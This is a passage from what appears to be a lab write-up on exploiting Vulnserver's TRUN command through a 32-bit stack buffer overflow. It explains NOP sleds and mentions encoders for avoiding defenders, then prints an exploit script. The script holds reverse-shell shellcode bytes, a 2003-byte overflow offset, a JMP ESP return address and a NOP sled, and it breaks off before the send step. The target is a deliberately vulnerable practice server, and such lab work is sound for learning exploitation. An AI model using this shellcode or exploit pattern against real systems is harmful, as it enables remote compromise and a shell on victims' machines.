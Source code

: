 We have created a shellcode of ```351 bytes``` which will perfectly fit into our buffer
                                                              
Usage of ```encoders``` may reduce the risk of getting caught by defenders

## Exploiting the Vulnserver

Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

We have to add ```NOPs``` aka ```NO OPERATION``` to our shellcode, in hex it is given as ```x90```

It should be added with the multiple of 4 (since we are exploiting 32 bit)

By adding nops, we will be performing ```nop-sled```, which will make the probability for execution of our shellcode higher

The exploit script for this ```buffer overflow``` via ```TRUN``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat exploit.py
import socket, sys

# shellcode to spawn reverse shell
buf =  b""
buf += b"\xda\xd2\xbe\x39\xe1\xbc\xa2\xd9\x74\x24\xf4\x5d\x2b"
buf += b"\xc9\xb1\x52\x31\x75\x17\x83\xed\xfc\x03\x4c\xf2\x5e"
buf += b"\x57\x52\x1c\x1c\x98\xaa\xdd\x41\x10\x4f\xec\x41\x46"
buf += b"\x04\x5f\x72\x0c\x48\x6c\xf9\x40\x78\xe7\x8f\x4c\x8f"
buf += b"\x40\x25\xab\xbe\x51\x16\x8f\xa1\xd1\x65\xdc\x01\xeb"
buf += b"\xa5\x11\x40\x2c\xdb\xd8\x10\xe5\x97\x4f\x84\x82\xe2"
buf += b"\x53\x2f\xd8\xe3\xd3\xcc\xa9\x02\xf5\x43\xa1\x5c\xd5"
buf += b"\x62\x66\xd5\x5c\x7c\x6b\xd0\x17\xf7\x5f\xae\xa9\xd1"
buf += b"\x91\x4f\x05\x1c\x1e\xa2\x57\x59\x99\x5d\x22\x93\xd9"
buf += b"\xe0\x35\x60\xa3\x3e\xb3\x72\x03\xb4\x63\x5e\xb5\x19"
buf += b"\xf5\x15\xb9\xd6\x71\x71\xde\xe9\x56\x0a\xda\x62\x59"
buf += b"\xdc\x6a\x30\x7e\xf8\x37\xe2\x1f\x59\x92\x45\x1f\xb9"
buf += b"\x7d\x39\x85\xb2\x90\x2e\xb4\x99\xfc\x83\xf5\x21\xfd"
buf += b"\x8b\x8e\x52\xcf\x14\x25\xfc\x63\xdc\xe3\xfb\x84\xf7"
buf += b"\x54\x93\x7a\xf8\xa4\xba\xb8\xac\xf4\xd4\x69\xcd\x9e"
buf += b"\x24\x95\x18\x30\x74\x39\xf3\xf1\x24\xf9\xa3\x99\x2e"
buf += b"\xf6\x9c\xba\x51\xdc\xb4\x51\xa8\xb7\x7a\x0d\xc6\xc7"
buf += b"\x13\x4c\x26\xee\x77\xd9\xc0\x84\x67\x8c\x5b\x31\x11"
buf += b"\x95\x17\xa0\xde\x03\x52\xe2\x55\xa0\xa3\xad\x9d\xcd"
buf += b"\xb7\x5a\x6e\x98\xe5\xcd\x71\x36\x81\x92\xe0\xdd\x51"
buf += b"\xdc\x18\x4a\x06\x89\xef\x83\xc2\x27\x49\x3a\xf0\xb5"
buf += b"\x0f\x05\xb0\x61\xec\x88\x39\xe7\x48\xaf\x29\x31\x50"
buf += b"\xeb\x1d\xed\x07\xa5\xcb\x4b\xfe\x07\xa5\x05\xad\xc1"
buf += b"\x21\xd3\x9d\xd1\x37\xdc\xcb\xa7\xd7\x6d\xa2\xf1\xe8"
buf += b"\x42\x22\xf6\x91\xbe\xd2\xf9\x48\x7b\xe2\xb3\xd0\x2a"
buf += b"\x6b\x1a\x81\x6e\xf6\x9d\x7c\xac\x0f\x1e\x74\x4d\xf4"
buf += b"\x3e\xfd\x48\xb0\xf8\xee\x20\xa9\x6c\x10\x96\xca\xa4"

# NOP sled 
nops=b"\x90"*40

# to overwrite buffer and EBP
payload=b"A"*2003

# to redirect the control to ESP -> JMP ESP
payload+=b"\xaf\x11\x50\x62"

# performing NOP sled after reach shellcode
payload+=nops

# shellcode gets executed
```
